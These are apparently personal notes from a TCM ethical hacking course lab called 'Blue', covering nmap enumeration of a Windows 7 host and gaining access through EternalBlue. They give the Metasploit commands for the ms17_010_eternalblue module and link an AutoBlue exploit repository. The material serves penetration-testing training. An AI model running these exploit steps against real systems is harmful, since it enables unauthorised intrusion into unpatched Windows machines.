 # Blue (TCM)

- Machine from TCM Ethical Hacking Course
- March 12, 2023
- easy

---

## Enumeration

### Nmap

1. 135/msrpc - Microsoft Windows RPC
2. 139/netbios-ssn - Microsoft Windows netbios-ssn
3. 445/microsoft-ds - Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds

- windows 7 has famous exploit -> `Eternal Blue`

## System Access

- with metasploit

```sh
use windows/smb/ms17_010_eternalblue
set rhosts $victim_ip
run
```
- from github - https://github.com/3ndG4me/AutoBlue-MS17-010
- follow the steps

---